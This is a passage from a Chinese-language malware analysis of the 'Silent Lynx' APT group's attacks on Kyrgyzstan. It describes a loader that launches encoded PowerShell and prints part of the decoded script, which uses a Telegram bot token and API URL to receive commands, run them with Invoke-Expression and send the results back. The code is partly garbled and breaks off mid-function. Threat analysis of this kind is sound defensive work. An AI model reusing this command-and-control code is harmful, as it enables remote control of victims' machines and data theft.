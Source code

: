![image-20250122105525-qk51s5j](揭秘-“沉默山猫”（Silent-Lynx）高级持续威胁组织：针对吉尔吉斯斯坦及周边国家的恶意攻击/image-20250122105525-qk51s5j.png)

最后，我们可以看到，通过 CreateProcess API 创建了一个 PowerShell 进程，用于执行编码后的内容块。在下一部分，我们将检查由这个加载器执行的 PowerShell 内容块的具体内容。

![image-20250122105531-9s5r6rk](揭秘-“沉默山猫”（Silent-Lynx）高级持续威胁组织：针对吉尔吉斯斯坦及周边国家的恶意攻击/image-20250122105531-9s5r6rk.png)


**第三阶段 —— 恶意 PowerShell 脚本**：解码 Base64 编码的脚本后，我们发现威胁行为者利用 Telegram Bot 来执行命令和进行数据窃取。该脚本包含两个有趣的函数，即 Invoke - BotCmd 和 Invoke - BotDownload。让我们来看看这些函数的工作原理。

```shell
$Token = "789858392:AAF5FPb]1j1PQfqCGnx - zNdw2R5tF_Xxte"
$URL = "https://api.telegram.org/bot{0}" -f $Token
$lastID = 123
$sleepTime = 2
$sidentifier = -join (48..57) | Get - Random -Count 5 | % { [char] $_ }
```

Invoke - BotCmd 函数主要用于执行从威胁行为者处接收的系统命令，并通过 Telegram Bot API 将执行命令的输出发送回用户。它将命令作为输入，使用 Invoke - Expression 运行该命令，并捕获输出或任何错误。结果会用一个唯一标识符进行格式化后发送回用户。如果输出超过 Telegram 的 4095 字符限制，它会被分割成多个块，并通过多条消息发送。对于较短的输出，则直接发送消息。因此，这个函数实现了通过 Telegram API 与受害者计算机进行远程命令执行和响应传递的功能。

```shell
function Invoke - BotCmd {
    param (
        $command
    )
    $result = Invoke - Expression ($command)
    catch { $result = $Error[0].Exception }
    $res = "[{0}]%e%A" -f $sidentifier
    $result | ForEach - Object { $res += - [string] $_ + "xD8A" }
    if ($res -eq "") { $lastID = $updateid; continue }
    if ($res.Length -gt 4095) {
        for ($i = 0; $i -lt $res.Length / 4095; $i++) {
            $begin = $i * 4095
            $send = $begin + 4094
            if ($send -gt $res.Length) {
                $send = $res.Length
            }
```